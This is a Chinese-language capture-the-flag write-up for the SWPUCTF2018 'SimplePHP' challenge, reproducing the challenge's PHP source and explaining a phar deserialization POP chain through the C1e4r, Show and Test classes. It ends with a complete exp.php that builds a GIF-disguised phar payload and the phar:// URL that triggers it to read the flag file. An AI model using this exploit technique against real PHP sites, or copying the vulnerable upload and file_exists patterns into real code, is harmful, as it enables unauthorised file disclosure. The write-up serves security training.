 # \[SWPUCTF2018] SimplePHP

## \[SWPUCTF2018] SimplePHP

## 考点

* 代码审计
* phar反序列化
* pop链构造

## wp

### 源码

打开靶机，在查看文件这里可以看到 url 为 `http://f292dcfd-887b-4ebb-b292-7d78df57cc52.node3.buuoj.cn/file.php?file=` 不难想到文件包含

试试 php://filter/ 发现没有反应，但是直接输入文件名可以读取文件，分别获取 file.php function.php class.php upload\_file.php base.php

{% code title="file.php" %}
```php
<?php 
header("content-type:text/html;charset=utf-8");  
include 'function.php'; 
include 'class.php'; 
ini_set('open_basedir','/var/www/html/'); 
$file = $_GET["file"] ? $_GET['file'] : ""; 
if(empty($file)) { 
    echo "<h2>There is no file to show!<h2/>"; 
} 
$show = new Show(); 
if(file_exists($file)) { 
    $show->source = $file; 
    $show->_show(); 
} else if (!empty($file)){ 
    die('file doesn\'t exists.'); 
} 
```
{% endcode %}

{% code title="function.php" %}
```php
<?php 
include "base.php"; 
header("Content-type: text/html;charset=utf-8"); 
error_reporting(0); 
function upload_file_do() { 
    global $_FILES; 
    $filename = md5($_FILES["file"]["name"].$_SERVER["REMOTE_ADDR"]).".jpg"; 
    //mkdir("upload",0777); 
    if(file_exists("upload/" . $filename)) { 
        unlink($filename); 
    } 
    move_uploaded_file($_FILES["file"]["tmp_name"],"upload/" . $filename); 
    echo '<script type="text/javascript">alert("上传成功!");</script>'; 
} 
function upload_file() { 
    global $_FILES; 
    if(upload_file_check()) { 
        upload_file_do(); 
    } } 
function upload_file_check() { 
    global $_FILES; 
    $allowed_types = array("gif","jpeg","jpg","png"); 
    $temp = explode(".",$_FILES["file"]["name"]); 
    $extension = end($temp); 
    if(empty($extension)) { 
        //echo "<h4>请选择上传的文件:" . "<h4/>"; 
    } 
    else{ 
        if(in_array($extension,$allowed_types)) { 
            return true; 
        } 
        else { 
            echo '<script type="text/javascript">alert("Invalid file!");</script>'; 
            return false; 
        }}} 
```
{% endcode %}

{% code title="class.php" %}
```php
<?php
class C1e4r{
    public $test;
    public $str;
    public function __construct($name){
        $this->str = $name;}
    public function __destruct(){
        $this->test = $this->str;
        echo $this->test;}}
class Show{
    public $source;
    public $str;
    public function __construct($file){
        $this->source = $file;   //$this->source = phar://phar.jpg
        echo $this->source;}
    public function __toString(){
        $content = $this->str['str']->source;
        return $content;}
    public function __set($key,$value){
        $this->$key = $value;}
    public function _show(){
        if(preg_match('/http|https|file:|gopher|dict|\.\.|f1ag/i',$this->source)) {
            die('hacker!');
        } else {
            highlight_file($this->source);
        }}
    public function __wakeup(){
        if(preg_match("/http|https|file:|gopher|dict|\.\./i", $this->source)) {
            echo "hacker~";
            $this->source = "index.php";
            }}}
class Test{
    public $file;
    public $params;
    public function __construct(){
        $this->params = array();}
    public function __get($key){
        return $this->get($key);}
    public function get($key){
        if(isset($this->params[$key])) {
            $value = $this->params[$key];
        } else {
            $value = "index.php";}
        return $this->file_get($value);}
    public function file_get($value){
        $text = base64_encode(file_get_contents($value));
        return $text;}}
```
{% endcode %}

{% code title="upload_file.php" %}
```php
<?php 
include 'function.php'; 
upload_file(); 
?>  
```
{% endcode %}

{% code title="base.php" %}
```php
<?php 
    session_start(); 
	echo $_SERVER['REMOTE_ADDR'];
?>  
```
{% endcode %}

### phar反序列化 <a href="#185268911" id="185268911"></a>

拿到源码后进行审计，发现在对上传文件检查( upload\_file\_check )时，采用了白名单的方式

![](../../.gitbook/assets/w4v8cqMe2uHsib5.png)

这样我们能够选择的绕过方式就不多了，可以去考虑 phar ，然后在 file.php 中发现调用了`file_exists()`函数，这给构造 phar 反序列化提供了条件

![](../../.gitbook/assets/W6gNpyT8dCHX1hk.png)

接下来就是读取文件了，在 `Test` 类的 `file_get()` 调用了 `file_get_contents` 获取文件内容，或许这就是突破口。`file_get()` 被调用的前提是 `Test` 类的实例化对象调用了未定义的属性或没有权限访问的属性，即 `__get()` 函数被调用

![](../../.gitbook/assets/pq5UNuDmJQAMWTi.png)

如何让 `Test` 类的 `__get()` 函数被调用，在 `Show` 类的 `__toString()` 方法中，`$this->str['str']->source` 访问了自己的 `source` 变量，这个变量 `Test` 类可没有，所以这就是让 `$this->str['str']` 为 `Test` 类的实例化对象。

![](../../.gitbook/assets/JmPztZ4ST2R6KEA.png)

如何让 `Show` 类的 `__toString()` 方法被调用，可以看到在 `C1e4r` 中的 `__destruct()` 函数调用了 `echo $this->test;` 让 `test` 是 `Show` 类的实例化对象即可

![](../../.gitbook/assets/Zfc3tNgPbqWnuo4.png)

最后是上传的路径，在 `upload_file_do()` 中给出了文件存储位置，实际上可以选择直接访问 /upload 寻找

上传路径为 `/upload/md5(filename+ip+.jpg)`

![](../../.gitbook/assets/image.png)

flag 的位置在 `Show` 类的 `_show()` 函数也可以看到提示，file.php 页面的注释中也有

要注意的是读取 flag 只能用绝对路径，不能使用相对路径

{% code title="exp.php" %}
```php
<?php
class C1e4r{
    public $test;
    public $str;

}
class Show{
    public $source;
    public $str;
}
class Test{
    public $file;
    public $params;
}
$a = new Test();
$a->params['source'] = "/var/www/html/f1ag.php";
$b = new Show();
$b->str['str'] = $a;
$c = new C1e4r();
$c->str = $b;
$phar = new Phar("1.phar", 0, '1.phar');
$phar->startBuffering();
$phar->addFromString("test.txt", "test");
$phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>");
$phar->setMetadata($c);
$phar->stopBuffering();
?>
```
{% endcode %}

访问`file.php?file=phar://upload/8adc336297a3d5eb2550edc08aa372a8.jpg`即可
